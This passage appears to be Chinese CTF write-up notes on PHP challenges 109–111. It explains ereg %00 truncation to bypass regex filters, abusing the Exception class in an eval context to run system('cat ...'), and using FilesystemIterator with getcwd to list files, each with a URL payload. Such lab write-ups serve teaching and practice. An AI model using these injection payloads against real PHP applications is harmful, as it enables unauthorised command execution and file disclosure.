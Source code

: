 > `ereg()`函数搜索由指定的字符串作为由模式指定的字符串，如果发现模式则返回`true`，否则返回`false`。搜索对于字母字符是区分大小写的。ereg函数存在NULL截断漏洞，导致了正则过滤被绕过,所以可以使用%00截断正则匹配
>
> php解释器是C语言编写的
> C语言中学过[字符串](https://so.csdn.net/so/search?q=字符串&spm=1001.2101.3001.7020)的结尾会有00作为字符串结束的标志
> 在url中%00表示ascll码中的0 ，而ascii中0作为特殊字符保留，表示字符串结束，所以当url中出现%00时就会认为读取已结束
>
> 0x00，%00，/00之类的截断，都是一样的
>
> strrev() 函数反转字符串。

payload：?c=a%00778

# 109 Refection类 Exception类

ReflectionClass、ReflectionMethod

```php
$class=new ReflectionClass('fuc'); //建立 fuc这个类的反射类
$fuc=$class->newInstance();//实例化 fuc 类
$fuc->hello();
```

Exception

异常处理类Exception(system(‘cmd’))可以运行指定代码，并且能返回运行的结果（如果存在返回）只要是变量后面紧跟着（），那么对这个变量进行函数调用。例如\$a = 'phpinfo'; $a(）即调用phpinfo（）

Payload：

?v1=Exception&v2=system('cat fl36dg.txt') 

最后组装的语句为：

```php
eval("echo new Exception(system('cat fl36dg.txt')());");
system('cat fl36dg.txt')() -> 就是对system('cat fl36dg.txt')的调用
```

# 110 FilesystemIterator类 getcwd()函数

```
FilesystemIterator 获取指定目录下的所有文件
getcwd()函数 获取当前工作目录 返回当前工作目录
```

payload: ?v1=FilesystemIterator&v2=getcwd

得到文件名后

在url中访问文件

# 111 GLOBALS域 var_dump变量输出

**var_dump()** 函数用于输出变量的相关信息
